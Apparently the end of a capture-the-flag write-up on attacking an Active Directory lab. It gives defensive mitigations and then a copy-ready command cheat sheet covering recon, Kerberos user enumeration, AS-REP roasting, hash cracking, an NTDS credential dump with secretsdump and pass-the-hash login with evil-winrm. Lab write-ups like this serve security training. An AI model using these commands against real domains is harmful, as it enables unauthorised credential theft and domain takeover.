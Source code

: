 ## Defense Notes & Mitigations

* **Disable “Do not require Kerberos preauthentication”** for all accounts unless absolutely necessary. Audit for this setting regularly.
* **Least privilege:** Do not give broad backup rights to low-trust service accounts. Use dedicated service accounts with narrowly-scoped permissions.
* **Monitor for `GetNPUsers` / Kerberos anomalies** and repeated TGS/TGT requests. Alert on unusual AS-REP behavior.
* **Protect backups:** Ensure backups (and their copies) are stored encrypted, access-controlled, and audited.
* **Use strong password policies** and multifactor auth for privileged accounts; rotation and complexity reduce offline cracking success.

---

## Cheat Sheet — Commands (Quick Copy)

```bash
# Recon
nmap -sV -p1-10000 -oA attacktive <TARGET>
enum4linux -a <TARGET>

# Username enumeration (example)
kerbrute userenum -d <DOMAIN> users.txt

# AS-REP roasting
python3 GetNPUsers.py <DOMAIN>/ -usersfile users.txt -format hashcat > asrep.hashes

# Cracking
hashcat -m 18200 asrep.hashes /usr/share/wordlists/rockyou.txt
# or
john --wordlist=/usr/share/wordlists/rockyou.txt asrep.hashes

# SMB access
smbclient -L //<TARGET> -U 'DOMAIN\\svc-backup'
smbclient // <TARGET>/backup -U 'DOMAIN\\svc-backup'

# DRSUAPI/NTDS dump
python3 secretsdump.py 'DOMAIN/svc-backup:Password'@<TARGET> -just-dc

# Pass-the-Hash (evil-winrm)
evil-winrm -i <TARGET> -u Administrator -H <ADMIN_NTLM_HASH>
```

---



